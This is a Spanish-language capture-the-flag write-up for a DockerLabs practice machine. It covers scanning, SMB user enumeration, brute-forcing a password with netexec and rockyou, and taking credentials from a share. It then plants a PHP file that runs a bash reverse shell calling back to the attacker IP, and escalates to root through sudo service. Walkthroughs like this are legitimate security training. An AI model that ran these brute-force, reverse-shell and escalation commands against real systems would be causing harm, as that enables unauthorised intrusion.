 nmap: 22,80,139,445

![image](https://github.com/user-attachments/assets/78d857c5-460d-42ce-94d6-3159515263ec)

---
hacemos un gobuster y nos da:

    gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x php,html,py,txt -t 64

![image](https://github.com/user-attachments/assets/b8a8ebeb-3b95-4134-a7fc-d1775b21470d)

    - info.php
    - productos.php

productos.php nos manda a otra pagina 

![image](https://github.com/user-attachments/assets/53410e19-348e-427a-94ea-322298cafe73)

en esa hay posibles contraseñas o usuarios como "shopo" o el codigo SHOPO20

haciendo un:
> enum4linux 172.17.0.2

nos da usuarios que tienen:

     - usuario1
     - usuario1
     - usuario3
     - satriani7
     - administrador

![image](https://github.com/user-attachments/assets/b54865f2-aa71-4d41-b4f6-bb8620adca3b)

hacemos una fuerza bruta: 

    sudo netexec smb 172.17.0.2 -u 'satriani7' -p /usr/share/wordlists/rockyou.txt  --ignore-pw-decoding 

da:
> santriani7/50cent

![image](https://github.com/user-attachments/assets/6faf8fb6-d6a8-4faa-8de6-bd3e44c9e241)

lo utilizamos para ver que ficheros tiene:

    smbmap -u 'satriani7' -p '50cent' -H 172.17.0.2

da:

    - myshare
    - backup24

![image](https://github.com/user-attachments/assets/36b341bc-287c-48d7-9386-0a2f917309fa)

nos conectamos ahora al "smb" 

    smbclient //172.17.0.2/backup24 -U 'satriani7%50cent'

dentro hay varios documentos
seguimos esta ruta: 
> Documentos > personal > get credentials.txt

![image](https://github.com/user-attachments/assets/5a4f3955-e87c-4c33-abe3-2be18a043f22)

en nuestra terminal lo leemos y tiene los usuarios y contraseñas

![image](https://github.com/user-attachments/assets/cd8931bd-d876-458e-af02-8cad7850d293)

entramos por el ssh con la de administrador

     administrador/Adm1nP4ss2024

![image](https://github.com/user-attachments/assets/bfcb74cb-b347-48cc-a77b-e790c3830b2a)

hacemos el comando: find / -user administrador 2>/dev/null
y encontramos esto

![image](https://github.com/user-attachments/assets/2bdc393e-152a-40ca-ad01-c1d6c6260651)

Sabiendo esto, podemos intentar crear un archivo que nos permita pasar al usuario "www-data"

vamos a la siguiente dirección:
> cd /var/www/html

creamos primero una carpeta llamada: shell.sh

    - #!/bin/bash
    - bash -i >& /dev/tcp/172.17.0.1/443 0>&1

ahora creamos una carpeta con php

      - <?php
      - system('./shell.sh')
      - ?>

ahora vamos al navegador que esten utilizando, en este caso firefox y colocamos: 
    http://172.17.0.2/shell.php
en el terminal victima colocamos en escucha: nc -nlvp 443 

![[dockerlabs/facil/allien/conexion2.png]]

y estamos otra vez dentro

ahora un tratamiento stty

colocamos sudo -l
podemos escalar por "service". lo buscamos: https://gtfobins.github.io/gtfobins/service/#sudo

![[dockerlabs/facil/allien/sudo.png]]

lanzamos el comando que nos da: 

    sudo service ../../bin/sh

bash -p

![[dockerlabs/facil/allien/root.png]]

y somos root! 
